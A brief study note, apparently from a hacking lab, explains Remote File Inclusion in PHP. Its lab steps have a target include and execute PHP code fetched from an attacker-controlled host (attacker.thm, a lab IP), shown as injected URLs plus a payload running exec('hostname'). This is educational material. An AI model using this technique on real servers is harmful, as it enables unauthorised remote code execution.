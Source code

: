 ```yaml
---
title: RFI
description:  Remote File Inclusion
---
```


Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 

## RFI steps

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message Hello World.
```html
<?PHPecho"Hello World";?>
```
First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.World/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. 

Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello World message.
	1. Start server `python3 -m http.server 8000`
	2. New .txt file
	3. `<?php print exec("hostname"); ?>`
	4. `http://10.10.14.127/playground.php?file=http://10.6.57.139:8000/cmd.txt`
